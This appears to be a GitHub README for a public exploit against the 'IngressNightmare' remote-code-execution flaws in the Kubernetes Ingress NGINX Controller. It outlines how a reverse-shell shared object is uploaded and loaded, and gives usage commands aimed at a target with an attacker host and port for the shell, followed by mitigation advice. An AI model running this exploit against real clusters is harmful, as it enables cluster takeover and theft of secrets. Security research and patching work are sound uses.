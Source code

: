 ## Exploit for Ingress NGINX - IngressNightmare

This project provides an exploit targeting critical **unauthenticated Remote Code Execution (RCE)** vulnerabilities in the Ingress NGINX Controller for Kubernetes, collectively referred to as IngressNightmare. (Research by [Wiz](https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities))

In the original research, the Wiz team did not provide a PoC or a functional exploit, so we decided to create our own and share it with the community.

#### Overview

The Ingress NGINX Controller is a widely used component in Kubernetes environments, managing external access to services within clusters. Recent vulnerabilities (CVE-2025-1097, CVE-2025-1098, CVE-2025-24514, CVE-2025-1974) discovered in its admission controller can lead to unauthorized access to all secrets across namespaces and potentially allow complete cluster takeover.

### **Exploit Workflow**

The exploit follows these main steps:

**Generate shared object** (used by the injected `ssl_engine` property):
*Compiles a .so library (evil_engine.so) containing reverse shell payload.*

**Upload the shared object**:
*Sends the compiled shared object to the ingress pod, leveraging request handling (client body buffers). The trick here is to send a different `Content-Length` to the server to keep the connection open and maintain the file descriptor for the file open.*

**Brute-force fd**:
*Iterates over process IDs and file descriptors (/proc/{pid}/fd/{fd}) to identify the correct descriptor referencing the uploaded object.*

Usage

Prerequisites:
Python 3.x
GCC compiler
Python requests module

Run exploit:

`pip3 install -r requirements.txt`

`python3 exploit.py <ingress_url> <admission_webhook_url> [attacker_host:port](attacker_host:port)`

Ex: `python3 xpl.py http://192.168.0.154 https://rke2-ingress-nginx-controller-admission.kube-system 192.168.1.63:443 `

Sometimes the `admission webhook` is in a different namespace. In this case, you need to specify the namespace at the end, such as `kube-system`, `default`, or `ingress-nginx`.

<ingress_url>: Target Ingress URL (public)

<admission_webhook_url>: Admission webhook URL (internal webhook)

[attacker_host:port](attacker_host:port): Your host and port for reverse shell

### Mitigation

Update immediately: Upgrade Ingress NGINX Controller to patched versions (1.12.1 or 1.11.5).

Restrict admission webhook: Limit access to the webhook to only the Kubernetes API Server.

Temporary disablement: Consider temporarily disabling the admission controller component if upgrading isn't immediately possible.

## QuimeraX Intelligence

**QuimeraX Intelligence** is an advanced EASM and Cyber Threat Intelligence platform specializing in identifying critical vulnerabilities in complex systems. The platform proactively monitors, detects, and alerts clients about security threats, ensuring transparency and rapid response to potential risks. Clients receive immediate notifications and comprehensive reports if their systems are found vulnerable, enabling them to take protective action. [learn more](https://hakaisecurity.io/quimera-team/)

## Hakai Security

[Hakai Security](https://hakaisecurity.io/) is a cybersecurity company founded by security professionals, committed to technical excellence. We offer tailored security solutions including advanced penetration testing, realistic Red Team simulations, and secure development practices to proactively protect our clients' assets from evolving cyber threats. [learn more]()

**Disclaimer**

This exploit is provided strictly for educational and research purposes. Unauthorized use of this tool against targets without explicit permission. Hakai Security and QuimeraX hold no responsibility for misuse or damage caused by using this exploit.
